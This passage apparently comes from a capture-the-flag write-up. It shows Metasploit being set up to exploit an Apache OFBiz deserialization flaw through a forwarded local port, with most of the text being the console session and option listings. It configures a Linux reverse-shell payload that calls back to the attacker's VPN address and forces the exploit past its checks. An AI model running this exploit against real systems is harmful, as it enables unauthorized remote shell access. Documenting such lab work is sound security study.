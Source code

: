 Selecting the module  we `set ForceExploit true` to bypass the checks, set the `srvport` to a free, bindable port on our machine, set `RHOSTS` to `127.0.0.1` and set `RPORT` to the port we forwarded to.  We then set `LHOST` to our vpn ip and  `LPORT` to the port we want to listen on to catch the shell. We also set `DisablePayloadHandler` to true to catch it ourselves and set `PAYLOAD` to `linux/x64/shell_reverse_tcp`.
Confirming all options are correct and our netcat listener is up, we run the exploit.

```js
msf6 > use linux/http/apache_ofbiz_deserialization
[*] Using configured payload linux/x64/meterpreter_reverse_https
msf6 exploit(linux/http/apache_ofbiz_deserialization) > set ForceExploit true
ForceExploit => true
msf6 exploit(linux/http/apache_ofbiz_deserialization) > set srvport 8090
srvport => 8090
msf6 exploit(linux/http/apache_ofbiz_deserialization) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(linux/http/apache_ofbiz_deserialization) > set lhost 10.10.14.24
lhost => 10.10.14.24
msf6 exploit(linux/http/apache_ofbiz_deserialization) > set lport 7575
lport => 7575
msf6 exploit(linux/http/apache_ofbiz_deserialization) > set DisablePayloadHandler true
DisablePayloadHandler => true
msf6 exploit(linux/http/apache_ofbiz_deserialization) > set payload linux/x64/shell_reverse_tcp
payload => linux/x64/shell_reverse_tcp
msf6 exploit(linux/http/apache_ofbiz_deserialization) > options

Module options (exploit/linux/http/apache_ofbiz_deserialization):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     127.0.0.1        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8443             yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.24      yes       The listen address (an interface may be specified)
   LPORT  7575             yes       The listen port

   **DisablePayloadHandler: True   (no handler will be created!)**


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper

```
